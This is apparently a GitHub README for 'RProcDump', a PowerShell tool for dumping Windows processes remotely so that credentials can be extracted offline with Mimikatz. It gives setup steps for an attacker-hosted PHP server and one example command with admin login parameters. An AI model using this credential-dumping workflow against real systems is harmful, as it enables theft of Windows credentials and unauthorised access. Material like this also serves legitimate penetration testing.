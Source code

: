 # RProcDump
Remote process dumping automation. 
Use it to dump remotely all windows credentials and extract clear text with Mimikatz offline

Help:
	Host all files in a webserver able to interpret PHP (apache2 on kali linux)
	Edit prameters in procdump.ps1 and run Rprocdump.ps1 with same parameters on attack machine:
	example:
	RProcdump -server http://127.0.0.1 -login administrator -pass password123

Need local privileges !!!

 Author: @ThebenyGreen
  - EyesOpenSecurity